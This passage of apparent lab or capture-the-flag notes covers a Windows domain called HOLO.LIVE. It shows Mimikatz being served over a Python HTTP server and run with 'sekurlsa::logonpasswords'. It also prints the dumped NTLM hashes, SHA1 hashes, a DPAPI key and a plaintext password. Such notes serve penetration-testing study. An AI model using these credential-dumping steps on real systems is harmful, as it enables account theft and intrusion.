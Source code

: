 
Let's run Mimikatz
```
http://10.51.9.13/mimikatz/x64/
```

```
python3 -m http.server 80
```

https://book.hacktricks.xyz/windows-hardening/stealing-credentials/credentials-mimikatz

```
privilege::debug
```

```
sekurlsa::logonpasswords
```

```
Username : S-SRV01$
NTLM     : 3179c8ec65934b8d33ac9ec2a9d93400
HA1     : fb4789d7ac8f1b2a46319fcb0ae10e616bd6a399
```

```
Username : watamet
NTLM     : d8d41e6cf762a8c77776a1843d4141c9
SHA1     : 7701207008976fdd6c6be9991574e2480853312d
DPAPI    : 300d9ad961f6f680c6904ac6d0f17fd0

Username : watamet
Domain   : HOLO.LIVE
Password : Nothingtoworry!
```


![[Pasted image 20240830041056.png]]

